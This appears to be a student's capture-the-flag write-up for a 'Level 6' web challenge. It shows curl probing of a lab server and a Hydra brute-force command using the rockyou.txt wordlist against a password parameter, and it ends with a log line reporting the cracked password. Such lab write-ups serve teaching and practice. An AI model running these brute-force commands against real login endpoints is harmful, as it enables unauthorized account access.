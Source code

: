 # Level 6

## Hacking the cracker

the route http://34.69.146.51:5000/level6/
returns to us:

{"error":"Invalid password"}

which obiously means that we need to send a password to the server.

I tried to send a password with curl via the following command:


```bash
curl -X POST http://34.69.146.51:5000/level6/ -H "Content-Type: application/json" -d '{"password": "testpassword"}'
```

and the response was:

$ curl -X POST http://34.69.146.51:5000/level6/ -H "Content-Type: application/json" -d '{"password": "testpassword"}'
<!doctype html>
<html lang=en>
<title>405 Method Not Allowed</title>
<h1>Method Not Allowed</h1>
<p>The method is not allowed for the requested URL.</p>

which means it isnt a post request, so lets try a basic get request, with a password variable in the url:

```bash
http://34.69.146.51:5000/level6/?password=3
```
this does return invalid password

so we will start with a python script and bruteforce the password.


using hydra kali linux

basic flow for the kali linux docker

docker pull kalilinux/kali-rolling

docker run --network host -it kalilinux/kali-rolling /bin/bash

apt update

apt install hydra

hydra -h



 docker cp C:\Users\yaniv\ctf_challenge\excellenteam-ctf-yaniv242\level_6\rockyou.txt 4e749fdea52228eb9a206c6eaf230c1180614d4643f5663387032d3468c90155:/root/rockyou.txt

finaly the perfect command:
```bash
hydra -vV -l dummy -P rockyou.txt 34.69.146.51 http-get "/level6/?password=^PASS^:F=Invalid password" -s 5000
```

so in the end, the point of the drill was to catch the body erturned from the server, and not the header, which i was trying to catch.
so there was no point in using hydra, or checking for different types of status codes, as the server always returns 200 or 401 status codes.
and the body is the only thing that changes.

```bash

2024-09-10 13:19:05,289 - logger - CRITICAL - Password successful: dog, Response: {"error":"Request processing took too long and timed out... , try to fetch part of the data by specifying start and end of a batch"}